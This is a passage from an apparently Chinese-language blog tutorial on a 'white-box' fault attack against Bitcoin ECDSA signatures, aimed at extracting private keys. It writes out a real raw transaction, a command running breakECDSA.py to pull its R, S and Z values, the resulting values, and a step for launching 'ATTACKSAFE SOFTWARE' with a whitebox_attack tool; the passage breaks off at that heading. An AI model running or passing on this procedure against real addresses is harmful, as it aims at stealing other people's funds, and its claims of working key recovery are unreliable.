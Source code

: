 
<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-35-1024x144.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1624"/></figure>



<pre class="wp-block-code"><code>RawTX = 01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000
</code></pre>



<h2>現在我們需要從所有易受攻擊的交易中獲取所有的 R、S、Z 值</h2>



<p>讓我們使用 breakECDSA.py 腳本</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-36-1024x303.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1626"/></figure>



<pre class="wp-block-code"><code>R = 0xdd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc8
S = 0x6a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e42103
Z = 0xe3836edb5789a3be19cb8b0c9bc8cb1ae2fd58c30d745ae34ceac35c20c0c21c</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>要從易受攻擊的 ECDSA 簽名交易中獲取密鑰，讓我們將數據添加<code>RawTX</code>到文本文檔並將其保存為文件<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool whitebox_attack</code>使用軟件啟動<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>
